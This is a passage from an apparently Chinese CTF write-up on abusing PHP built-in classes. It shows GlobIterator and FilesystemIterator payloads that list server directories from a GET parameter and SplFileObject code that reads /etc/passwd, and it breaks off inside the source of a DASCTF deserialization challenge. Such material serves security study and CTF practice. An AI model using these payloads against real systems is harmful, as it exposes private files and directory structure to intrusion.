 ####  使用 GlobIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中cmd=/*

# payload一句话的形式:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

前面都是读取文件目录，下面是可以读取文件内容

###  可读取文件类

####  SplFileObject 类

[官方文档](https://www.php.net/manual/zh/class.splfileobject.php)

SplFileInfo 类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作

测试：

读取文件的一行

```php
<?php
$context = new SplFileObject('/etc/passwd');
echo $context;
```

对文件中的每一行内容进行遍历

```php
<?php
$context = new SplFileObject('/etc/passwd');
foreach($context as $f){
    echo($f);
}
```



### [2021 MAR DASCTF 明御攻防赛]ez_serialize

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()    // 可以直接绕过__wakeup()方法的执行
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
```